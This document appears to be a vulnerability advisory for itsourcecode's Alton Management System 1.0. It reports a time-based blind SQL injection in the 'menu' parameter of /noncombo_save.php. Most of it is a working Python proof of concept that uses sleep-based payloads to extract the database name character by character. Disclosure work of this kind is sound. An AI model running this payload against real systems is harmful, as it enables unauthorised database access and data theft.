



### [description]

A vulnerability was found in Alton Management System for SQL injection of time-based blind bets via URI /noncombo_save.php with parameter name "menu".


### [Vulnerability Type]

SQL Injection


### [Vendor of Product]

Vendor: itsourcecode

Product: Alton Management System


### [Affected Product Code Base]

version 1.0

Download: https://itsourcecode.com/wp-content/uploads/2020/02/altonsystem.zip


### [Impact Escalation of Privileges]

true


### [POC] 







```python
import requests
import datetime
import string

url = "http://localhost:8087/altonsystem/altonsystem/noncombo_save.php"
all_strings = string.printable
length = 12
res = ''
for _ in range(length):
    for i in all_strings:
        data = {
            "nop[]": 1,
            "nop[]": 2,
            "menu[]": f"1' and if((ascii(substr((select database()),{_},1))={ord(i)}),sleep(3),1)-- -"
        }

        time1 = datetime.datetime.now()
        response = requests.post(url=url, data=data).text
        # print(response)
        time2 = datetime.datetime.now()
        sec = (time2 - time1).seconds
        if sec > 2:
            res += i
            print(res)
            break
        else:
            pass
```

